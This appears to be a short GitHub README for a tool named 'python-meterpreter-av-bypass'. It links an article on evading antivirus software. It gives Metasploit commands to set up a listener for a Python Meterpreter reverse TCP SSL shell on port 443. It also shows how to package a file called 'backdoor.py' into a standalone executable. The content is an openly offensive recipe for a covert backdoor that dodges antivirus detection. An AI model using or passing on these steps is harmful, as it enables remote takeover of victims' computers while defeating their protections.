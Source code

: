 # python-meterpreter-av-bypass
https://medium.com/@R00tendo/bypassing-all-known-anti-virus-applications-python-meterpreter-919255ecd9d1


## Setup metasploit handler

```
use multi/handler
set payload python/meterpreter/reverse_tcp_ssl
set LPORT 443
set LHOST 0.0.0.0
run
```

## Make python implant a binary.

```bash
pyinstaller -F backdoor.py
```
